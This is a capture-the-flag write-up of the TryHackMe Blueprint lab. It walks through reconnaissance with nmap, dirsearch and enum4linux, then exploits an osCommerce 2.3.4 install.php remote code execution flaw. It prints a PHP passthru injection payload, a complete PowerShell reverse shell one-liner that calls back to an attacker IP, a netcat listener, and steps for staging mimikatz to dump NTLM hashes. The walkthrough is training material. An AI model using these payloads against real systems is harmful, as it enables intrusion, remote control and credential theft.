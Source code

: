 
## Reconnaissance:

First of all, to understand whether machine live or not try to
`ping` it.

```
ping 10.10.118.119
```

The output should look like:

![[TryHackMe/BlueprintMachine/images/1.png]]

Add your ip address to `/etc/hosts` file.

```
nano /etc/host
```

Include your ip address the format provided below:

![[TryHackMe/BlueprintMachine/images/2.png]]


Before move on, I highly recommend you to check manually whether `web application` runs on `port 80/443` via browser. In most scenarios, we will not have https protocol.

```
//The route that you need to follow is:
http://blueprint.thm
```

This route automatically interact with HTTP protocol. Most of the time browsers have default routing mechanism directing to port 443. We should always try to route port 80 by just manually adding `http://`

![[TryHackMe/BlueprintMachine/images/3.png]]

Recently, I also tried to check `Apache` commonly running on port 8080:

![[TryHackMe/BlueprintMachine/images/4.png]]

As you can see above, we have an directory named `oscommerce-2.3.4`. I was curious about it ,so I searched about our Operating System commerce app.

![[5.png]]

It is clear that we should trigger RCE through web app. However, further reconnaissance is not harmful :) I also wanted to `fuzz` this route `http://blueprint:8080`

For the fuzzing, I thought that `dirsearch` and `dirb` will be suitable:

`Dirsearch` payload:

```
dirsearch -u http://blueprint.thm:8080
```

![[6.png]]

I just got `/server-status/`, `/server-info` paths. Capturing server data is useful for the architectural understanding. Let me extract what we have so far !


![[7.png]]

I was dealing with `Win32` architecture, `Apache` as a web server and for the backend `PHP` working on the machine. Furthermore, on `/oscommerce-2.3.4/docs/` path, there was a database dump. However, I could not reach any juicy information.

![[8.png]]


The `database scheme` pattern looks like `ER diagram`.

Nmap was beneficial to get extended data about application:

Nmap Payloads:
```
sudo nmap -sV -sC blueprint.thm

sudo nmap -sV -sC -p- blueprint.thm
```

Since I have already get what we need especially architecture of the application. I preferred to use only `default script` scan. Moreover, full port scan was not compatible on this scenario because it ran really slow. Anyway, let's check the `network mapper` output.

![[9.png]]

The results depicted that I did not check only the port `445` as known as `SMB` (Server Message Block).


![[10.png]]

`Nmap` script engine automatically run `default smb scripts` against on target. Lastly, checking the SMB will be crucial to get initial compromise since `nmap` script result revealed the potential discovery on `SMB`.

According to `HackTricks`, we can use `enum4linux` to enumerate the target:

[Pentesting SMB](https://book.hacktricks.xyz/network-services-pentesting/pentesting-smb)

![[11.png]]

```
enum4linux -a 10.10.118.119
```

The most identical part of the `enum4linux` output was the `nbtstat information`.

![[12.png]]

Script could get the `Domain/Workgroup` named `WORKGROUP`. Let me try to authenticate it through without giving credentials.

![[13.png]]

```
	//IPC$ did not allow me to run any commands
	──(root㉿kali)-[/home/kali]
	└─# smbclient -U '%' -N \\\\10.10.118.119\\IPC$  
	Try "help" to get a list of possible commands.
	smb: \> dir
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> whoami
	whoami: command not found
	smb: \> ls
	NT_STATUS_ACCESS_DENIED listing \*
	smb: \> 
```

SMB did not give me useful findings. Therefore, I switched on exploitdb to get initial compromise.

[RCE](https://www.exploit-db.com/exploits/44374)


![[14.png]]

There was a web app based vulnerability occurs ,so let me apply this manually before I demonstrate all the ways to compromise machine.

Specifically, `PHP engine` shows an error the path `/install.php?step=4`. DB configuration error occured.

![[15.png]]

I intended to do directly manual without any tool ,but it did not work. That's why, lets run `manual exploit

Firstly, edit the `url` part of the script:

![[TryHackMe/BlueprintMachine/images/15.png]]


As you can see below, it did not work because the script automatically tried to execute `system('ls')` command on the OS.

![[16.png]]

However, the web app disabled such commands by default ,so lets run another payload from [Github](https://github.com/nobodyatall648/osCommerce-2.3.4-Remote-Command-Execution)

To understand how the script works, I initially ran it just by giving any parameters and inputs.

![[17.png]]

Payload that I have used:

```
python3 osCommerce2_3_4RCE.py http://10.10.31.69:8080/oscommerce-2.3.4/catalog
```

Custom script directly injects the payload through the POST method on `install.php?step=4` and manipulating DB_DATABASE parameter to include `PHP command injection` by `passthru()` method. As you know, I could not use system(); method because of the web app restrictions.

Malicious payload:

```
'); passthru('whoami'); /*
```

![[18.png]]

Although there were not any privilege execution mechanism on script, I had straightforwardly get `NT AUTHORITY\SYSTEM`. However, still I could not move any paths directly on `OS`.

![[19.png]]

Hence, I also wanted to try again [`Exploit Db`](https://www.exploit-db.com/exploits/44374) Maybe I can upgrade my shell with `Powershell reverse shell`. Because of the script's iteration. I was not able to interact with shell properly. It only allowed me to show `current directory`.

The payload that I used:
```
powershell -NoProfile -Command "$client = New-Object System.Net.Sockets.TCPClient(\'10.11.69.113\',4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

Just change the IP address with your machine and port. You can generate your payloads from here:

[RevShell Generator](https://www.revshells.com/)

Now deploy `netcat listener`:

```
nc -lvnp 4444
```

![[21.png]]

You can directly paste when you prepare your payload as above. Then switch on the shell that you spawned.

You should wait at least `15 seconds` to ensure ready your upgraded `reverse shell`. That's all ! !

![[22.png]]

To get `LAB` user flag, you should use `Mimikatz` to get the `NTLM` hash of the user.

Upload `mimikatz.exe`:

deploy local python server
```
python -m http.server 3131
```

Since the target is x86 device known as 32bit:

![[23.png]]

Using `mimikatz32.exe` is compatible for us. That's all for m today guys ! !

May The Pentest Be With Your ! !

